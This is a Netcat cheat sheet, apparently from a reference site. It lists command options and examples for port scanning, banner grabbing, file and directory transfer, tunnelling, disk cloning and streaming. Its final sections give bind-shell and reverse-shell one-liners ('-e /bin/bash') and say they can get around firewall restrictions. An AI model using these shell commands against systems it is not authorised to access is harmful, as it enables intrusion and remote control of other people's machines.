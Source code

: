 ```yaml
---
title: Netcat - nc
date: 2020-11-25 18:28:43
icon: icon-netcat
background: bg-blue-600
tags: 
    - ncat
categories:
    - Linux Command
intro:  This cheat sheet provides various for using Netcat on both Linux and Unix.
---
```


Getting started {.cols-5}
---------------

### Usage {.col-span-2}

Connect to a host located anywhere

```
nc [options] [host] [port]
```

Listen for incoming connections
```
nc -lp port [host] [port]
```

Arbitrary TCP and UDP connections and listens.



### Option examples {.col-span-3}

| Option | Description                 | Example                                            |
|--------|-----------------------------|----------------------------------------------------|
| `-h`     | nc -h                       | Help                                               |
| `-z`     | nc -z 192.168.1.100 1-100        | Port scan for a host or IP address                 |
| `-v`     | nc -zv 192.168.1.100 1-100     |   Provide verbose output   | 
| `-n`     | nc -zn 192.168.1.100 1-100     | Fast scan by disabling DNS resolution              |
| `-l`     | nc -lp 8090                 | TCP Listen mode _(for inbound connects)_                                   |
| `-w`     | nc -w 180 192.168.1.100 8090     | Define timeout value                               |
| `-k`     | nc -kl 8090 | Continue listening after disconnection |
| `-u`     | nc -u 192.168.1.100 8090 | Use UDP instead of TCP |
| `-q`     | nc -q 1 192.168.1.100 8090 | Client stay up after EOF |
| `-4`     | nc -4 -l 8090 | IPv4 only                                          |
| `-6`     | nc -6 -l 8090 | IPv6 only                                          |


Examples {.cols-3}
--------

### Banner grabbing
```
$ nc website.com 80
GET index.html HTTP/1.1
HEAD / HTTP/1.1
```
or
```
echo "" | nc -zv -wl 192.168.1.1 801-805
```

### Port scanning

Scan ports between 21 to 25
```
nc -zvn 192.168.1.1 21-25
```

Scan ports 22, 3306 and 8080
```
nc -zvn 192.168.1.1 22 3306 8080
```


### Proxy and port forwarding
```
nc -lp 8001 -c "nc 127.0.0.1 8000"
```
or
```
nc -l 8001 | nc 127.0.0.1 8000
```
Create a tunnel from one local port to another


### Chat client-server
Server (192.168.1.100)
```
nc -l 8090
```

Client
```
nc 192.168.1.100 8090
```

After this whatever you type on machine B will appear on A and vice-versa.


### Download file

Server (192.168.1.100)
```
nc -l 8090 < file.txt
```

Client
```
nc -n 192.168.1.100 8090 > file.txt
```

Suppose you want to transfer a file “file.txt” from server A to client B.


### Upload file

Server (192.168.1.100)
```
nc -l 8090 > file.txt
```

Client
```
nc 192.168.1.100 8090 < file.txt
```

Suppose you want to transfer a file “file.txt” from client B to server A:


### Directory transfer

Server (192.168.1.100)
```
tar -cvf – dir_name | nc -l 8090
```

Client
```
nc -n 192.168.1.100 8090 | tar -xvf -
```

Suppose you want to transfer a directory over the network from A to B.


### Encrypt transfer {.col-span-2}


Server (192.168.1.100)
```
nc -l 8090 | openssl enc -d -des3 -pass pass:password > file.txt
```

Client
```
openssl enc -des3 -pass pass:password | nc 192.168.1.100 8090
```

Encrypt data before transfering over the network



### Clones

Server (192.168.1.100)
```
dd if=/dev/sda | nc -l 8090
```

Client
```
nc -n 192.168.1.100 8090 | dd of=/dev/sda
```

Cloning a linux PC is very simple. Suppose your system disk is /dev/sda



### Video streaming

Server (192.168.1.100)
```
cat video.avi | nc -l 8090
```

Client
```
nc 192.168.1.100 8090 | mplayer -vo x11 -cache 3000 -
```

Streaming video with netcat




### Remote shell

Server (192.168.1.100)
```
nc -l 8090 -e /bin/bash -i
```

Client
```
nc 192.168.1.100 8090
```

We have used remote Shell using the telnet and ssh but what if they are not installed and we do not have the permission to install them, then we can create remote shell using netcat also.



### Reverse shell

Server (192.168.1.100)
```
nc -l 8090
```

Client
```
nc 192.168.1.100 8090 -e /bin/bash
```

Reverse shells are often used to bypass the firewall restrictions like blocked inbound connections

